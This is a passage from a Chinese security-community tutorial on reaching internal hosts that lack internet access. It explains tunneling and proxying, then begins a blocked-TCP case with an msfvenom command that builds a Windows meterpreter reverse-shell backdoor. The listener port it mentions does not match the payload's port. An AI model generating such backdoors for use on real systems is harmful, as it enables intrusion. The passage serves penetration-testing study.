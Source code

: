 ```yaml
---
title: 内网不出网上线学习研究 - 先知社区
url: https://xz.aliyun.com/t/13918
clipped_at: 2024-03-20 09:45:31
category: default
tags: 
 - xz.aliyun.com
---
```



# 内网不出网上线学习研究 - 先知社区

# 引言

### 在网络安全领域，内网不出网是一个常见问题，它可能由于网络协议封杀或者内网完全无网络连接造成。本文将介绍隧道技术和代理技术，以及如何在不同情况下应用这些技术来解决问题。

#### 在解决内网不出网的时候我们首先应该要了解隧道技术和代理技术

### 隧道技术

隧道技术是一种在网络中创建私密通道以在不安全或公共网络上安全传输数据的方法。它允许将一种网络协议的数据封装在另一种网络协议的数据包中传输。

### 代理技术

-   代理是一种在网络中充当中间人的服务器或服务。它接收来自客户端的请求，并代表客户端向其他服务器或资源发出请求。代理服务器接收到请求后，可以修改请求或者在返回给客户端之前对其进行处理。

### 代理技术和隧道技术的区别

代理和隧道技术都可以用于安全性和访问控制，但它们的主要区别在于其作用和实现方式。代理更多地用于代表客户端请求资源，而隧道技术用于在网络中创建安全通道传输数据。

#### 所以我们在内网协议被封杀的时候使用隧道技术。网络通信不通的时候使用代理技术

# 案例分析：

## 1\. 协议被封杀

今天列举的是 tcp 协议被封杀导致无法出网

#### msf 绕过

首先生成后门

```plain
msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=444 -f exe > msf.exe
```

然后 msf 启动监听，监听 333 端口
